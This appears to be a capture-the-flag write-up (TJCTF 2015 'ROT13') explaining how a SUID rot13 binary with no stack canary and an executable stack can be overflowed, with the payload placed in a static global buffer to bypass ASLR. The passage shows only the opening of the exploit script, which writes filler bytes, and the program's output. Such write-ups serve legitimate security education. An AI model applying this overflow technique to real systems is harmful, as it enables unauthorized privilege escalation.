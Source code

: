 ```yaml
---
layout: post
title: "TJCTF 2015 ROT13"
date: 2015-04-29 02:25:40 -0400
author: [superkojiman]
comments: true
categories: [tjctf]
---
```


### Solved by superkojiman

We're provided access to a shell server where we find a SUID rot13 binary called rot13. As the name suggests, the binary will take input, ROT13 encode it, and then print out the result. We're also provided the code. If we look closely, we see that the ROT13 implementation is a bit weird.

Our input is encoded and decoded correctly provided that it consists only of letters in the alphabet. Once we throw in anything that isn't a letter, the binary will subtract 13 from it to encode it, and to decode it. That means it will never decode non-letters correctly. This will be important later on. 

The first step is to overwrite the saved return pointer. The server has ASLR turned on, but the binary has no stack canary and has an executable stack. Our input is stored in a global buffer called tmp. After the encoding is done, the contents of tmp are copied into buf and a check is made to see if the sum of the strlen of buf and tmp is greater than 255. If it is, the program reports that the buffer is full and prints the encoded message. Since tmp is a global buffer, it will have a static address. Since it contains our input, we can store our payload in there and bypass ASLR by returning to it. 

Here's the beginning of our exploit: 

```python
#!/usr/bin/env python

buf = ""
buf += "A"*254 + "\n"
buf += "B"*254 + "\n"
sys.stdout.write(buf)
```

Let's see how the program behaves. I modified the source code so that it would print the contents of the tmp buffer as well. 

```text
koji@pwnbox32:~/Desktop/rot13$ ./sploit.py | ./a.out 
ROT13-ATOR
Input strings. Send an empty newline to end.
Buffer is full, ending.
tmp: len:255 data:[OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
]
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
```
